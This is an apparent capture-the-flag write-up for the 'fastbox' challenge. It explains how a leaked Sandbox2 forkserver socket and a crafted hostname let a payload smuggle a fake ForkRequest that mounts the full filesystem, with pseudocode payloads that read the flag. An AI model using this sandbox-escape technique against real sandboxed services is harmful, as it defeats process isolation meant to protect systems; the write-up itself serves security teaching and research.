 # Writeup for fastbox

## Challenge description

We can execute arbitrary payloads (up to 5 at a time) in a
[Sandbox2](https://developers.google.com/code-sandboxing/sandbox2) based
sandbox. The payloads are started one after another but without waiting for the
previous one to finish execution. We can have multiple payloads executing in
parallel. Additionally we can set a custom hostname for each of the payloads.

Seccomp policy only allows read/write/open/exit and mntns is empty.

## Intended solution

The challenge sets up a Sandbox2
[custom forkserver](https://developers.google.com/code-sandboxing/sandbox2/getting-started/executor#method_3_custom_forkserver_%E2%80%93_prepare_a_binary_wait_for_fork_requests_and_sandbox_on_your_own)
in an unusual way. This leads to leaking the socket fd used to receive
[fork requests](https://github.com/google/sandboxed-api/blob/6cd83d68def5e89fb2f3ea454454f08a7ea00e7e/sandboxed_api/sandbox2/forkserver.proto#L45)
into the payload.

The
[wire format](https://github.com/google/sandboxed-api/blob/6cd83d68def5e89fb2f3ea454454f08a7ea00e7e/sandboxed_api/sandbox2/comms.h)
uses Tag-Lenght-Value encoding and protos are sent in serialized form.

We cannot use the leaked fd to just send a new fork request to launch a payload
with the whole fs available. But we can read (races with read in the forkserver)
part of the original request sent to launch the next payload.

Moreover we have quite good control of part of that original request through the
hostname. The only constraint is that the hostname cannot contain '\n' (0x0A).

Crucial part is however that the forkserver needs to read the whole original
request as it expect messages that pass file descriptors to follow it. We can
either just use the suffix of the encoded proto verbatim or if needed hide it in
a string/bytes field of our "fake" ForkRequest.

### Solution in pseudocode

#### Calculate kPrefix, kSuffix

Ask to run 2 payloads:

1.  Hostname: don't care. Payload:

    ```
    char buf[128]
    kSocket = 4
    r = read(kSocket, buf, 128)
    write(1, buf, r)
    ```

2.  Hostname: a unique value. Payload: dummy (`exit(0)`/`infloop`/etc)

`kPrefix` = offset of the unique hostname in the request read by the first
payload.

`kSuffix` = len(stuff read) - kPrefix - len(unique hostname)

#### Get the Flag

Ask to run 2 payloads:

1.  Hostname: don't care. Payload:

    ```
    fd = read(kSocket, kPrefix)
    stage2_addr = &stage2
    write(fd, stage2_addr, &$RSP[return_address_offset])
    exit(0)
    ```

2.  Hostname crafted as:

    ```
    fork_request = ForkRequest()
    fork_request.clone_flags = 0x20000000 | 0x10000000 | 0x20000
    fork_request.mode = FORKSERVER_FORK
    fork_request.mount_tree.node.dir_node.outside = "/"
    fork_str = fork_request.SerializeToString()
    return p32(kTagProto2) + p64(len(fork_str)+kSuffix) + fork_str
    ```

    Payload:

    ```
    char buf[128]
    open('flag', O_RDONLY)
    read(flag, buf, 128)
    write(1, buf, 128)
    ```
